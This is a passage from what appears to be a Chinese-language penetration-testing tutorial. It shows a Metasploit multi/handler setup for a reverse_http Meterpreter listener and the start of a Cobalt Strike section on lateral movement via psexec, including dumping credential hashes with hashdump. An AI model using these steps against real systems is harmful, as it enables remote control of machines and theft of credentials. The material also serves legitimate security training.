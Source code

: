 打开 `msf` 配置文件

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

> 注意 不能使用 X64位的beacon.exe!

![](img/13.png)


#### 利用cs中的psexec上线内网不出网主机

1. `Dump Hashes导出HASH`

Beacon右键，`Access–>Dump Hashes` 或命令行中执行`hashdump命令`。
`hashdump`必须在拥有`adminstrators`权限的情况下才能执行。

![](img/15.png)
